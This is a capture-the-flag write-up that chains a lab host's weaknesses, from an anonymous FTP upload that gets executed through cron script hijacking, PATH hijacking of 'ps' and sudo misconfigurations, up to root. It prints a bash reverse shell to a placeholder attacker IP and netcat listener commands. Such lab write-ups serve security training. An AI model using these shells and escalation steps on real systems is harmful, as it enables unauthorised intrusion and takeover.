<p align="center">
  
</p>

---

## Objectives

- What is the flag found in the `recon_user`'s home directory?
- What is the flag found in the `dev_user`'s home directory?
- What is the flag found in the `monitor_user`'s home directory?
- What is the flag found in the `ops_user`'s home directory?
- What is the flag found in the `root user`'s home directory?

---

## Attack Path

`recon_user` → `dev_user` → `monitor_user` → `ops_user` → `root`

---

## Obtaining `recon_user` flag

First, I scanned the target host using `nmap` to enumerate open ports, running services and their versions by executing the command below:
```bash
nmap -sS -sVC <target_host_IP> -oN <filename>
```

<p align="center">
  
</p>

Looking at the `nmap` scan results, the target host only has 2 ports open. The `ftp` port 21 and the `ssh` port 22. <br>
The ftp server allows anonymous logins. I then started enumerating the ftp server after logging in as an anonymous user.

<p align="center">
  
</p>

Inside the root directory of the ftp server, there are 2 more directories named `incoming` and `pub`. <br>
The `pub` directory contains a text file named `README.txt` and a couple of directories that were empty. <br>
The contents of `README.txt` are shown below:
```
[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
```
After carefully reading the text, I tried figuring out what file format it was looking for and how it processes the file. <br>
So I created a bash script named `test.sh` to see if it would process the script and execute the command inside. <br>
```bash
#!/bin/bash
ping <attacker_IP> -c 5
```
While on another terminal, I have `tcpdump` running to capture the `icmp` packets and confirm if my script was being processed and executed. <br>
> `icmp` is used for network diagnostics and error reporting between devices on a network. The `ping` command is used to test if devices are reachable over a network. <br>
> If `test.sh` were to be processed and executed then I am expecting to receive 5 `icmp echo requests` and see those requests and replies through `tcpdump`.

> You can also instead test it directly by trying to establish a reverse shell connection. I used this method since it is a straight forward response.
```bash
sudo tcpdump -i tun0 icmp
```
After a while `tcpdump` displayed 5 `icmp echo requests` which confirms that the ftp server processes bash scripts and executes it. <br>
Below I uploaded a script named `shell.sh` which would try and establish a reverse shell connection on another terminal listening via a `netcat` listener. <br>

```bash
#!/bin/bash
bash -i >& /dev/tcp/<attacker_IP>/<attacker_port> 0>&1
```
```bash
# netcat listener
nc -lnvp <attacker_port>
```

<p align="center">
  
</p>

`shell.sh` was executed and a connection was established. <br>
After the connection has been established, I created an ssh key-pair and logged in as `recon_user` via `ssh`.

---

## Obtaining `dev_user` flag

After enumerating the user's privileges, writable files and groups, I found that `recon_user` is within the `dev_user` and `devops` groups. <br>
There are also interesting directories inside `/opt` shown below.
```bash
uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
```

<p align="center">
  
</p>

Inside `/opt/dev` there is a bash script named `backup.sh` and a directory named `bin` which has an executable binary called `ps`. <br>
It allows me to **read/write/execute** the file `/opt/dev/backup.sh` since the account I'm using is part of the `dev_user` group. <br>
> I cannot escalate my privileges to the `dev_user` account even after modifying `/opt/dev/backup.sh` just yet. <br>
> Even if it's owned by `dev_user`, scripts run with the privileges of the user who executes them. <br>
> I must figure out if there's a process that is trying to run `/opt/dev/backup.sh` in the background.
I started checking running processes within the system. I found a cron job with the UID ``1002`` which belongs to the `dev_user`, executing continually.

<p align="center">
  
</p>

Afterwards, I repeated the method on how I gained access to `recon_user` by modifying the script and running a `netcat` listener.
```bash
#!/bin/bash
bash -i >& /dev/tcp/<attacker_IP>/<attacker_port> 0>&1
```
```bash
# netcat listener
nc -lnvp <attacker_port>
```

<p align="center">
  
</p>

A shell was created as the user `dev_user`. <br>
I then proceeded to create an ssh key-pair for this account.

---

## Obtaining `monitor_user` flag

I began enumerating the `/opt/app` first as it seems to be the next relevant directory to start with. <br>


<p align="center">
  
</p>

There's a script `/opt/app/deploy_helper.sh` within. It does nothing but prints out a couple of texts and sleep for 2 seconds. <br>
There isn't much information I could correlate with this for now.

<p align="center">
  
</p>

I went back to check the running processes. There are several processes under the UID `1003` which belongs to the `monitor_user`. <br>
A notable process being executed was `/usr/local/bin/healthcheck`. Looking at its source code, it is trying to execute the binary `ps` every 5 seconds.

<p align="center">
  
</p>

This is where I can escalate my privileges to the `monitor_user` account. <br>
```bash
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done
```
The script is trying to execute the binary `ps` to display information about the running processes. <br>
> However, there is a flaw within the code. Whenever the script runs and executes the `ps` command, it doesn't know the exact location of the binary to run.  <br>
> It tries to find it inside the `PATH` variable, which is a list of directories where executable binaries can be found. <br>
> It searches through these directories to find the `ps` executable before it can execute it. <br>

<p align="center">
  
</p>

The `PATH` variable for `dev_user` is set as `/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`. <br>
I then changed it to `/opt/dev/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin` by doing:
```bash
export PATH=$(pwd):$PATH
```
It prepended the current directory `/opt/dev/bin` to the `PATH` variable. <br>
> The absolute path for the `ps` binary is `/usr/bin/ps`. <br>
> Next, I created a script named `ps` that would create a shell within `/opt/dev/bin`. <br>
> Once the cron job executes `/usr/local/bin/healthcheck`, it will call `ps`. <br>
> It would search through the new `PATH`, starting with `/opt/dev/bin` which will find the `ps` I created and execute it. <br>
I proceeded to do the same method by opening up a `netcat` listener, waiting for the `ps` script to establish a connection. <br>
After 5 seconds it created a shell as the `monitor_user`.

<p align="center">
  
</p>

---

## Obtaining `ops_user` flag

<p align="center">
  
</p>

There are several things to note after enumerating `monitor_user`.
- It doesn't belong to any other group other than itself.
- `/usr/local/bin/deploy.sh` can be executed by `others`
- There are no running processes or cron jobs under `ops_user`
Afterwards, I checked what permissions the current user has.

<p align="center">
  
</p>

It shows that `monitor_user` can run the script `/usr/local/bin/deploy.sh` with `ops_user`'s privileges and doesn't require a password. <br>
All I have to do is modify `/opt/app/deploy_helper.sh` and proceed with the same method with the `netcat` listener
and wait for it to create a shell as the `ops_user`.

<p align="center">
  
</p>

After modifying `/opt/app/deploy_helper.sh`, I executed the command below:
```bash
sudo -u ops_user /usr/local/bin/deploy.sh
```

<p align="center">
  
</p>

It then established a connection and created a shell as `ops_user`.
I then proceeded to create an ssh key-pair for this account.

---

## Obtaining `root` flag

The first thing I checked was the user's privileges.

<p align="center">
  
</p>

`ops_user` is able to run `/usr/bin/less` as root without requiring a password. <br>

<p align="center">
  
</p>

Then I searched for `less` at [GTFObins](https://gtfobins.org/gtfobins/less/). This website provides information about Unix-like
executables and how they can be abused to bypass certain local security restrictions. <br>

<p align="center">
  
</p>

<p align="center">
  
</p>

After following the commands shown above, I was able to escalate my privileges to `root`.
